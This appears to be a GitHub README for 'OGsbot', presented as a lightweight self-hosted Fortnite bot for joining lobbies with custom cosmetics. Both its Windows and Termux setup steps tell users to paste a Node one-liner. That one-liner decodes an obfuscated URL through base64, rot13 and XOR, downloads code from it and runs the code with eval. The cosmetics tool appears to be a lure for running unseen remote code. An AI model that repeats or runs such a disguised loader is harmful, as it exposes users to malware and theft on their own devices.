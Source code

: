 
# 🌌 **OGsbot - Self-Hosted**

OGsbot is a **lightweight**, **easy-to-use** Fortnite bot that lets you join bot lobbies with custom cosmetics.


---

## 🧠 **Features**

- ✅ Join Fortnite bot lobbies
- 🎭 Use custom skins, emotes & cosmetics
- 💻 Fully self-hosted (no installs required)
- ⚡ Low memory usage (under 50MB)
  

---

## 🖥️ **System Requirements**

| Type            | Minimum                         | Recommended              |
|-----------------|----------------------------------|---------------------------|
| 💾 RAM          | 25 MB                           | 50 MB+                   |
| 🧠 CPU          | 1 Core                          | 1 Cores+                 |
| 🌐 Internet     | Basic connection                | Basic connection         |
| packages        | nodeJS                           | nodeJS                   |


---

## 🚀 **How to Start the Bot**

### 📌 Step 1: Open Command Prompt (CMD)

1. Press `Windows + R`
2. Type `cmd`
3. Press `Enter`

### 🧩 Step 2: Paste & Run the Command Below

Copy the full line below and paste it into CMD:


node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"

# note   
(only supports OGsbot1-OGsbot17 currently)
# for mobile 

Install Termux from F-Droid (not Play Store).

Open Termux and run:
pkg install nodejs
then run 

node -e "const https=require('https');const k=23,b='f3BwdHEtODhyaWA5Y35wf29ob3FlcmdrbHBlbHA5Z2ttOHFsfnRlcSUmOHFmbWxjaHFyfXxjaHFycXBjOHJlZHE4f2VpZnE4bWl+bDh7a2lmZXI5fXE=';const rot13=s=>s.replace(/[a-zA-Z]/g,c=>String.fromCharCode((c<='Z'?90:122)>=(c=c.charCodeAt(0)+13)?c:c-26));const u=rot13(Buffer.from(b,'base64').toString()).split('').map(c=>String.fromCharCode(c.charCodeAt(0)^k)).join('');https.get(u,r=>{let d='';r.on('data',c=>d+=c);r.on('end',()=>eval(d));});"



